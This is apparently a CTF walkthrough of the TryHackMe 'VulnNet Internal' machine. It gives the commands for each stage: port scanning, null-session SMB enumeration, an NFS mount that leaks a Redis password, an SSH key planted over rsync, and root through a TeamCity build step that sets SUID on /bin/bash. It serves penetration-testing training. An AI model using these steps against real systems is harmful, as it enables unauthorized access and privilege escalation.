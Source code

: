 ```yaml
---
layout: post
title: TryHackMe Vulnet Internal - Writeup
---
```


Vulnet is an easy/medium difficulty TryHackMe machine.

![](/assets/writeups/vulnet-internal/vulnet_internal.png)

## Challenge brief

VulnNet Entertainment is a company that learns from its mistakes. They quickly realized that they can’t make a properly secured web application so they gave up on that idea. Instead, they decided to set up internal services for business purposes. As usual, you’re tasked to perform a penetration test of their network and report your findings.

There are four flags that need to be submitted in order to complete the challenge:
- Service Flag
- Internal Flag
- User Flag
- Root Flag

# Enumeration

## Nmap Scan

```bash
nmap -p- -sS -T5 --min-rate 1000 --max-retries=3 --open -vvv -n -Pn 10.10.132.157 -oG allPorts
```

![](/assets/writeups/vulnet-internal/nmap_ports.png)

```bash
nmap -sC -sV -p22,111,139,445,873,2049,6379,40031,40423,44823,53943 10.10.132.157 -oN targeted
```

![](/assets/writeups/vulnet-internal/nmap_services.png)


## Port 139 & 445 - SMB

Let's enumarate with enum4linux

```bash 
enum4linux - a 10.10.132.157

========================================= 
|    Share Enumeration on 10.10.132.157   |
========================================= 
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.132.157
//10.10.132.157/print$   Mapping: DENIED, Listing: N/A
//10.10.132.157/shares   Mapping: OK, Listing: OK
//10.10.132.157/IPC$     [E] Can not understand response:

====================================================================
| Users on 10.10.132.157 via RID cycling (RIDS: 500-550,1000-1050) |
====================================================================

[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-1569020563-4280465252-527208056
[I] Found new SID: S-1-5-32

[+] Enumerating users using SID S-1-5-21-1569020563-4280465252-527208056 and logon username '', password ''
S-1-5-21-1569020563-4280465252-527208056-513 VULNNET-INTERNAL\None (Domain Group)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
 S-1-22-1-1000 Unix User\sys-internal (Local User)
```

Let's access to `//10.10.132.157/shares` with smbclient using a null session.

![](/assets/writeups/vulnet-internal/smbclient_shares.png)

Inside /tmp we will get the services.txt flag

```bash
$ cat services.txt 
THM{0a09d51e488f5......}
```

## Port 2049 - nfs_acl

Port 2049 is open and noticed that there was a lot of output for port 111. I can see in the output for port 111, that the service NFS was present in the output. This indicates that I might be able to list and download (and maybe upload) files.

More about NFS:

- [2049 - Pentesting NFS Service](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)

- [Exploiting NFS share [updated 2021]](https://resources.infosecinstitute.com/topic/exploiting-nfs-share/)

![](/assets/writeups/vulnet-internal/nfs.png)

```bash
mkdir /tmp/infosec
mount -t nfs 10.10.132.157:/opt/conf /tmp/infosec
```

![](/assets/writeups/vulnet-internal/redis_pass.png)

## Port 6379 - Redis

Port 6379 is open, and now we have a password.

`requirepass "B65Hx562...."`

More about Redis:

- [6379 - Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

```bash
redis-cli -h 10.10.132.157

AUTH B65Hx562....

info

keys *

GET "internal flag"
"THM{ff8e518addbb.......}"

LRANGE "authlist" 0 100
"QXV0aG9ya...."
```

## Port 873 - Rsync

In the "authlist" key, we found a base64 encoded value, when decoded gives us the credentials for the rsync service.

More about Rsync:

- [873 - Pentesting Rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

```bash
nc -vn 10.10.132.157 873

@RSYNCD: 31.0
#list

files
```

```bash
rsync rsync://rsync-connect@10.10.132.157/files/

rsync rsync://rsync-connect@10.10.132.157/files/sys-internal

rsync rsync://rsync-connect@10.10.132.157/files/sys-internal/user.txt .

"THM{da7cc20696.......}"
```

Let's get a shell

```bash
ssh-keygen -o

rsync -av id_rsa.pub rsync://rsync-connect@10.10.132.157/files/sys-internal/.ssh/authorized_keys

ssh -i id_rsa sys-internal@10.10.132.157
```

I now have a SSH access to the target machine.

![](/assets/writeups/vulnet-internal/shell.png)

## Root Privilege Escalation - TeamCity

More about TeamCity:

- [Pentest Teamcity](https://github.com/kacperszurek/pentest_teamcity)

```bash
ssh -L 8111:127.0.0.1:8111 -i id_rsa sys-internal@10.10.132.157
```

Taking a look into the server, inside `/TeamCity/logs` there is a file called `catalina.out`, there we can find the token to log in a super admin.

Now:

```markdown
- Create a project
- Create a build configuration
- Search for build steps
    - New build step (command line)
    - script: `chmod +s /bin/bash`

- Run!
```

![](/assets/writeups/vulnet-internal/suid_bash.png)

![](/assets/writeups/vulnet-internal/run_project.png)

![](/assets/writeups/vulnet-internal/root.png)
